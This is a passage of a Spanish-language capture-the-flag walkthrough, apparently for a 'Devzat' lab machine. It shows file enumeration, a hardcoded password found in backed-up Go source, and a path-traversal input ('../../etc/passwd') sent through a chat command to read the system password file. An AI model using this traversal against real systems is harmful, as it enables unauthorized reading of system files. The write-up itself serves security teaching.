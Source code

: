 ```bash
[SYSTEM] nick - Change your display name
[SYSTEM] color - Change your display name color
[SYSTEM] timezone - Change how you view time
[SYSTEM] emojis - Get a list of emojis you can use
[SYSTEM] help - Get generic info about the server
[SYSTEM] tictactoe - Play tictactoe
[SYSTEM] hangman - Play hangman
[SYSTEM] shrug - Drops a shrug emoji
[SYSTEM] ascii-art - Bob ross with text
[SYSTEM] example-code - Hello world!
[SYSTEM] file - Paste a files content directly to chat [alpha]
                                                                                                                                                                            3 minutes in
yorch: /file
[SYSTEM] Please provide file to print and the password
```

Listamos archivos propietarios del usuario `catherine`

```bash
catherine@devzat:/$ find \-type f -user catherine 2>/dev/null | grep -vE "cgroup|proc"
./home/catherine/.profile
./home/catherine/.cache/motd.legal-displayed
./home/catherine/.bashrc
./home/catherine/.ssh/known_hosts
./home/catherine/user.txt
./home/catherine/.bash_logout
./var/backups/devzat-main.zip
./var/backups/devzat-dev.zip
```

Nos llama la atención `devzat-dev.zip`. Lo movemos a la carpeta `/tmp` y descomprimimos para observar su contenido. Enumerando archivos localizamos una credencial en `commands.go`

```bash
func fileCommand(u *user, args []string) {
        .
        .
        .
        // Check my secure password
        if pass != "CeilingCatStillAThingIn2021?" {
                u.system("You did provide the wrong password")
                return
        }
        .
        .
        .
```

Nos volvemos a conectar al chat en el puerto 8443 y listamos `/etc/passwd` con la contraseña encontrada

```bash
yorch: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
yorch: /file ../../etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] root❌ 0:0:root:/root:/bin/bash
[SYSTEM] daemon❌ 1:1:daemon:/usr/sbin:/usr/sbin/nologin
[SYSTEM] bin❌ 2:2:bin:/bin:/usr/sbin/nologin
[SYSTEM] sys❌ 3:3:sys:/dev:/usr/sbin/nologin
[SYSTEM] sync❌ 4:65534:sync:/bin:/bin/sync
[SYSTEM] games❌ 5:60:games:/usr/games:/usr/sbin/nologin
[SYSTEM] man❌ 6:12:man:/var/cache/man:/usr/sbin/nologin
[SYSTEM] lp❌ 7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[SYSTEM] mail❌ 8:8:mail:/var/mail:/usr/sbin/nologin
[SYSTEM] news❌ 9:9:news:/var/spool/news:/usr/sbin/nologin
[SYSTEM] uucp❌ 10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```